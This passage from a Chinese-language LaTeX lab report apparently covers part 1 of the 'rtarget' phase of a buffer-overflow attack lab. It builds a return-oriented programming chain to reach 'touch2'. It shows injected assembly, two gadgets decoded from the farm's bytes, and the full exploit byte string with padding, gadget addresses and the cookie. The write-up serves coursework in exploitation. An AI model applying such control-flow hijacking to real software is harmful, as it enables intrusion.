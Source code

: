 \begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec          
    ret                         
\end{lstlisting}

我们需要修改\%rdi寄存器的值，以此跳转到$touch2$函数。
根据$ctarget$部分的分析，$Touch2$中$Cookie$的值我们是已知的。
现在需要将这个值放入栈中并在小工具中将$popq$到某个寄存器中，在执行寄存器$movq$指令即可。

在farm中寻找合适的gadget函数，过程如下，将栈中的值放入寄存器中。
\begin{lstlisting}
    00000000004019a7 <addval_219>:
      4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
      4019ad:   c3                      retq
\end{lstlisting}
    
\texttt{58 90 c3} 代表了：
\begin{lstlisting}
    popq %rax #0x4019ab
    nop
    ret
\end{lstlisting}
    
\begin{lstlisting}
    00000000004019a0 <addval_273>:
      4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
      4019a6:   c3                      retq
\end{lstlisting}
    
\texttt{48 89 c7} 代表：
\begin{lstlisting}
    movq % rax ,% rdi       # 0x4019a2
\end{lstlisting}


因此我们需要做的就是在$getbuf$的$return address$写上第一个$gadget$的地址，
接着写入$cookie$的值，再写入第二个$gadget$的地址，最后写入$touch2$的地址。

\subsubsection{Answers}
\begin{lstlisting}
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00     # popq % rax
    fa 97 b9 59 00 00 00 00     # popq content
    a2 19 40 00 00 00 00 00     # movq % rax,% rdi
    ec 17 40 00 00 00 00 00     # touch2
\end{lstlisting}
    
\subsubsection{实验结果}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.48\textwidth]{Rts1.png}
    \caption{rtarget Part 1实验结果}
\end{figure}

